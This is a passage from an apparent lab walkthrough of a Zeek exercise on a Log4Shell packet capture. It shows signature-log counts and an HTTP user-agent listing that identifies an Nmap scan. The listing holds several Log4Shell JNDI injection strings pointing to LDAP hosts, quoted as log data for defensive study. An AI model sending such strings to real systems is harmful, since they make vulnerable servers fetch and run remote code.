 Anser: `knr.exe`

## Task 3: Log4J

- Investigate the log4shell.pcapng file with detection-log4j.zeek script. Investigate the signature.log file. What is the number of signature hits?
- Investigate the http.log file. Which tool is used for scanning?
- Investigate the http.log file. What is the extension of the exploit file?
- Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?

### Investigate the log4shell.pcapng file with detection-log4j.zeek script. Investigate the signature.log file. What is the number of signature hits?


And we start again `zeek` with our module to detect `log4j` signatures:

`zeek -Cr log4shell.pcapng detection-log4j.zeek `

and we filter for `event_msg`and `note`:

```bash
root@ip-10-10-162-16:/home/ubuntu/Desktop/Exercise-Files/log4j# cat signatures.log |zeek-cut note  event_msg |nl
     1	Signatures::Sensitive_Signature	192.168.56.102: log4j_javaclassname_tcp
     2	Signatures::Sensitive_Signature	192.168.56.102: log4j_javaclassname_tcp
     3	Signatures::Sensitive_Signature	192.168.56.102: log4j_javaclassname_tcp
```

Anser: `3`


### Investigate the http.log file. Which tool is used for scanning?


We filter the `http.log` for `user_agent` and delete the duplicates.

```bash

root@ip-10-10-162-16:/home/ubuntu/Desktop/Exercise-Files/log4j# cat http.log |zeek-cut user_agent |sort |uniq
${jndi:ldap://127.0.0.1:1389}
${jndi:ldap://192.168.56.102:389/test}
${jndi:ldap://192.168.56.102:389}
${jndi:ldap://192.168.56.102}
Java/1.8.0_181
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
SecurityNik Testing
```
Scanning tool is `nmap`

Answer: `Nmap`

### Investigate the http.log file. What is the extension of the exploit file?
